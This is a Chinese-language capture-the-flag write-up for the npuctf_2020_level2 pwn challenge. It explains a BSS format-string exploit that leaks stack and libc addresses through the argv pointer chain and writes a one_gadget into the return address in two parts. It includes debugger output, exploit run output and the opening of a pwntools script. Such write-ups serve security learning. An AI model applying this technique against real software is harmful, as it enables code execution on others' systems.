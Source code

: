 ## 2.npuctf_2020_level2（BSS段上的格式化字符串利用，args链）

做了这道题，实际上对于基础pwn有了更通透的理解，最本质的还是去更改控制地址链

这里我们控制args链

```c
pwndbg> stack 60
00:0000│ rsp 0x7fffffffdfb8 —▸ 0x5555555547f5 (main+91) ◂— lea    rsi, [rip + 0xb8]
01:0008│ rbp 0x7fffffffdfc0 —▸ 0x555555554830 (__libc_csu_init) ◂— push   r15
02:0010│     0x7fffffffdfc8 —▸ 0x7ffff7a03bf7 (__libc_start_main+231) ◂— mov    edi, eax
03:0018│     0x7fffffffdfd0 ◂— 0x1
04:0020│     0x7fffffffdfd8 —▸ 0x7fffffffe0a8 —▸ 0x7fffffffe3d3 ◂— '/home/q/Desktop/npuctf_2020_level2'

```

0x7fffffffdfd8 —▸ 0x7fffffffe0a8 —▸ 0x7fffffffe3d3 ◂— '/home/q/Desktop/npuctf_2020_level2'这条链接就是args链

我们用%p泄露地址就可以知道其中0x7fffffffe0a8 的偏移是9，0x7fffffffe3d3 的偏移是35。

不过因为不可能一次性写入非常大的数据我们的onegadget需要进行拆分分2次写入

我们这里控制栈的返回地址也就是bp+8分2次写入onegadget

第一步改写偏移为9的地方为bp+8

然后写入一半的onegadget在偏移35处

第二步重复不过是写入另外一半，对于数据的拆分exp中有，可以看下脚本运行的拆分结果

因为最后3个字节是固定的前面的0x7f什么的都是动态的我们不用管反正在程序里面栈有栈的0x7fxxxx，libc有libc的我们只用改最后3个字节就行了

```c
q@ubuntu:~/Desktop$ python2 bssformat.py
[+] Starting local process './npuctf_2020_level2': pid 2940
[+] Opening connection to node4.buuoj.cn on port 25838: Done
[+] stack_addr ===> 0x7ffc0e7814a8
[+] libc_addr ===> 0x7f52ca086638
[+] stack_ret_addr ===> 0x7ffc0e7813c8
[+] libc_base_addr ===> 0x7f52c9c9f000
[+] one_gadget ===> 0x7f52c9cee2c5
[*] one_gadget1:0xe2c5
[*] one_gadget2:0xce
[*] Switching to interactive mode

```

##不过需要注意的是，因为我们写入的数据不算小的，还要用去输入一些junk code去刷新下缓冲区，然后sleep去等待刷新##

exp

```python
from pwn import *
import functools

LOG_ADDR = lambda x, y: log.success('{} ===> {}'.format(x, hex(y)))
int16 = functools.partial(int, base=16)
context.update(arch='amd64', os='linux', endian='little')

r= process('./npuctf_2020_level2')
r=remote('node4.buuoj.cn','25838')
r.sendline("%9$p,%24$p")
msg = r.recvline()
stack_addr, libc_addr = msg[:-1].split(b',')

stack_addr = int16(stack_addr.decode())
libc_addr = int16(libc_addr.decode())
LOG_ADDR('stack_addr', stack_addr)
```